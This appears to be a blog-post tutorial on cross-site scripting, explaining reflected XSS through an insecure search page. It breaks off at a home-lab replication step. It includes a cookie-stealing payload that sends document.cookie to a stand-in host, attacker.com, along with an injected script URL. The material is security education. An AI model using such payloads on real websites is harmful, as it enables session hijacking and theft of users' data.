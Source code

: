 ```yaml
---
layout: post
title: XSS Research
date: '2025-03-03'
description: "XSS Vulnerability Research"
categories: [research]
---
```


## 1. CROSS-SITE SCRIPTING (XSS)
## INTRODUCTION
Cross-Site Scripting (XSS) is a client-side vulnerability that allows attackers to inject malicious scripts into web applications. These scripts run in a victim’s browser, enabling attackers to steal sensitive data, hijack user sessions, or perform actions on behalf of the user.

In this walkthrough, we’ll explore different types of XSS vulnerabilities, demonstrate how to exploit them, and discuss mitigation strategies.

### a) REFECTED XSS
#### OVERVIEW
Reflected XSS occurs when an application receives data in a request and includes the data within the immediate response in an unsafe way.

#### EXAMPLE EXPLOITATION
Consider a search functionality on an insecure website: https://insecure-website.com/search?term=gift
The response for the above URL looks like this:
```txt
<p>You searched for: gift</p>
```

**EXPLOTATION STEPS**
Assuming the app doesn't perform any other data processing, an attacker modifies the request to inject a malicious script:
```txt
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```

The browser executes the script when the victim visits the link.
```txt
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

The attacker can modify the payload to steal session cookies:
```sh
<script>document.location='http://attacker.com?cookie='+document.cookie</script>
```
When executed, the victim’s session is sent to the attacker’s server.

#### REPLICATION ON A HOME LAB
Create a simple PHP script to simulate the vulnerability.
![img-description](1.png)